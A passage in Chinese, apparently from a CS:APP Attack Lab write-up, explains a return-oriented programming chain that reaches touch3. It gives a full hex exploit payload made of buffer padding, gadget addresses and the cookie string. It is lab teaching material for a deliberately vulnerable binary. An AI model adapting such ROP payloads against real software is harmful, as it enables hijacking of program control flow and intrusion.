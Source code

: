 我们可以先得到rsp的值，mov到rax，然后mov到rdi，这样rdi就拿到了栈顶的地址。

接下来通过pop rsi的gadget，我们再输入偏移，就可以通过前面的lea获取我们输入的字符串的地址。

最后mov到rdi上，就可以跳转到`touch3`了。

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
83 13 40 00 00 00 00 00
40 00 00 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

